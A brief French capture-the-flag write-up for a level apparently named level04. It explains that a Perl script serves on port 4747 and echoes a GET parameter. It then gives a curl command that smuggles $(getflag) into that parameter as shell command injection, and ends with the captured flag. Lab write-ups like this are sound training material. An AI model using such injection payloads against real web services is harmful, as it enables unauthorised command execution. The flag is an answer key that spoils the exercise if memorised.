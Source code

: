1. Afficher le code de `level04.pl`
2. On remarque que le code lance un serveur sur le port 4747 qui retourne un `echo` du parametre GET `x`
3. Il suffit d'envoyer la commande suivante `curl http://$URL:4747/?x=$(getflag)`

> Flag: ne2searoevaevoem4ov4ar8ap